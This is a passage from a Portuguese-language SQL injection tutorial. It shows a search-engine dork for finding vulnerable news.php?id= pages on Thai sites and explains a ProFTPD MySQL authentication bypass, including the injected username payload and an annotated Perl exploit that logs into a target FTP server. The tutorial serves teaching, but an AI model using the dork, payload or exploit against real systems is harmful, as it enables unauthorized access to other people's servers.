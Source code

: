 Outro exemplo: eu pesquiso por sites que contenham alguma URL com news.php?id=
e que tenha seu domínio .th (Tailândia):

```
inurl:news.php?id= +site:th
```

#### Outros cenários

Ao contrário do que se pensam, SQL Injection não se limita apenas a sistemas WEB, vide o caso desta vulnerabilidade:

http://www.securityfocus.com/bid/33722/exploit

No caso desta falha, um serviço de FTP chamado "Proftpd" possui um módulo que permite autenticação do serviço de FTP com usuários cadastrados em um banco de dados MySQL. O interessante é que este módulo não fazia validação dos dados de entrada, permitindo que um atacante pudesse injetar strings SQL como nome de usuário, assim:

```
username: %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; --
password: 1
```

E com isso ele conseguia rodar comandos no FTP server sem conhecer nenhum login nem senha.

Aos 4:20 deste vídeo, é demonstrado a utilização de um exploit que explora essa falha:

<iframe width="780" height="480" src="https://www.youtube.com/embed/s5EtYRiMf_o?ecver=1" frameborder="0" allowfullscreen></iframe>


Em uma simples análise do exploit utilizado no vídeo:

http://downloads.securityfocus.com/vulnerabilities/exploits/33722.pl

É possível perceber a simplicidade da exploração da falha:

<pre style="background:#000;color:#f8f8f8"><span style="color:#3e87e3">$host</span> = <span style="color:#3e87e3">$ARGV</span>[0]; <span style="color:#aeaeae;font-style:italic"># Variável $host recebe o endereço IP do servidor á ser atacado</span>

<span style="color:#aeaeae;font-style:italic"># Variável $user é inicializada com pedaço de código SQL que deverá 'confundir'</span>
<span style="color:#aeaeae;font-style:italic"># processo de autenticação no lado do servidor:</span>
<span style="color:#3e87e3">$user</span> = <span style="color:#65b042">"USER %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; --"</span>; 
<span style="color:#3e87e3">$pass</span> = <span style="color:#65b042">'1'</span>;

<span style="color:#aeaeae;font-style:italic"># Variável $ftp armazena descritor de conexão estabelecida com servidor FTP</span>
<span style="color:#3e87e3">$ftp</span> = Net::FTP<span style="color:#e28964">-></span>new(<span style="color:#65b042">"<span style="color:#8a9a95">$host</span>"</span>, <span style="color:#3387cc">Debug </span>=> 0) <span style="color:#e28964">or</span> <span style="color:#e28964">die</span> <span style="color:#65b042">"[!] Cannot connect to <span style="color:#8a9a95">$host</span>"</span>;

<span style="color:#aeaeae;font-style:italic"># O login malicioso é realizado, perceba que nome de usuário é simplesmente</span>
<span style="color:#aeaeae;font-style:italic"># o conteúdo de $user</span>
<span style="color:#3e87e3">$ftp</span><span style="color:#e28964">-></span>login(<span style="color:#65b042">"<span style="color:#8a9a95">$user</span>"</span>,<span style="color:#65b042">"<span style="color:#8a9a95">$pass</span>"</span>) <span style="color:#e28964">or</span> <span style="color:#e28964">die</span> <span style="color:#65b042">"<span style="color:#ddf2a4">\n</span><span style="color:#ddf2a4">\n</span>[!] Couldn't ByPass The authentication ! "</span>, <span style="color:#3e87e3">$ftp</span><span style="color:#e28964">-></span>message;
<span style="color:#dad085">print</span> <span style="color:#65b042">"<span style="color:#ddf2a4">\n</span>[*] Connected To <span style="color:#8a9a95">$host</span>"</span>;
</pre>
